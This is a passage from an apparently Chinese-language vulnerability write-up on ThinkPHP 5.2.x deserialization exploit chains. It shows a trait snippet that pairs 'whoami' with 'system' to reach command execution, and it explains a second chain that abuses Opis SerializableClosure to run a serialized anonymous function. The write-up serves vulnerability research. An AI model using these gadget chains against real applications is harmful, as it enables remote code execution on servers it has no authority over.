 ```
  [0]=>
  string(3) "233"
}
```
之后控制
```php
trait Attribute{
    private $data = ['test' => "whoami"]; //此处2个键名要相同，值为$value
    private $withAttr = ['test' => "system"]; //此处2个键名要相同，值为$closure
}
```
即可

### 利用链II
[thinkphp v5.2.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187332)这篇文章中提到了另一种和利用链I类似的方法，只不过不是直接执行符合条件的函数，而是通过tp自带的`SerializableClosure`调用
`\Opis\Closure`可用于序列化匿名函数，使得匿名函数同样可以进行序列化操作。这意味着我们可以序列化一个匿名函数，然后交由上述的`$closure($value, $this->data)`调用执行
![](./pics5.2/5.png)
这里用到了`__invoke()`:将对象当作函数来使用时，会自动调用该方法
`func_get_args()`:返回一个包含函数参数列表的数组
```php
<?php
$func = function(){phpinfo();}; //$这里func为一个对象
call_user_func_array($func,[]);
```
这样是可以成功执行`phpinfo()`的